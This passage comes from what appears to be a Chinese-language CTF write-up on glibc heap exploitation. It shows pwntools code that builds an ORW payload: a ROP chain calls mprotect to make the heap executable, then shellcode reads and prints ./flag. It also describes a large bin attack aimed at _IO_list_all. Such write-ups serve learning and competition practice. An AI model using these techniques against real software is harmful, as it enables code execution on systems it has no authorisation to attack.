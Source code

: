 然后再在板子后面接上 orw，此处先调用 mprotect，修改 `heap_base_addr` ~ `heap_base_addr + 0x10000` 为rwx 后，跳到精心构造的 shellcode 执行. 该 shellcode 打开 `./flag` read 后将其标准输出

```py
orw =  b'./flag\x00\x00'
orw += p64(rdx_r12_c) + p64(0) + p64(start_addr - 0x10)
# 调用 mprotect, 修改 heap_base_addr ~ heap_base_addr + 0x10000 为rwx
orw += p64(rdi_c) + p64(heap_base_addr)
orw += p64(rsi_c) + p64(0x10000) 
orw += p64(rdx_r12_c) + p64(0x7) * 2
orw += p64(libc.symbols['mprotect'])
orw += p64(shell_addr)
''' long syscall(SYS_openat2, int dirfd, const char *pathname, struct open_how *how, size_t size); '''
orw += asm(shellcraft.openat2(-100, orw_addr, orw_addr + 0x1000, 0x18))
''' ssize_t read(int fd, void buf[.count], size_t count); '''
orw += asm(shellcraft.read(3, heap_base_addr + 0x10000, 0x50))
''' ssize_t write(int fd, const void buf[.count], size_t count); '''
''' write to stdout 1 '''
orw += asm(shellcraft.write(1, heap_base_addr + 0x10000, 0x50))
orw += asm(shellcraft.exit(0))

payload = struct_file + struct_widedata + orw

```

构造完毕后，需要将该 payload 填充到一个 large bin chunk 中. 

<table style="border:1px solid #2bbc8a;border-collapse: collapse" border="1">
  <tr>
    <td>Type</td>
    <td>Size</td>
  </tr>
  <tr>
    <td>Fast Chunk</td>
    <td>0x20 ~ 0x80</td>
  </tr>
  <tr>
    <td>Small Chunk</td>
    <td>< 0x400</td>
  </tr>
  <tr>
    <td>Large Chunk</td>
    <td>>= 0x400</td>
  </tr>
</table>

先 alloc 两个 `0x548` 大小的 chunk，分别为 chunk_1、chunk_2.  

为了获得 libc 偏移地址，首先需要 free chunk_1 并使其进入 large bin 中，获取了 libc 地址后再向 chunk_1 中写入 payload 使得其 `bk_nextsize` 指向 `_IO_list_all - 0x20`. 操作后的 large bin 状况如下所示

```
chunk_1
fd_nextsize: 	0x0
bk_nextsize:	_IO_list_all - 0x20

_IO_list_all - 0x20
fd_nextsize: 	_IO_2_1_stderr_
bk_nextsize:	0x0
```
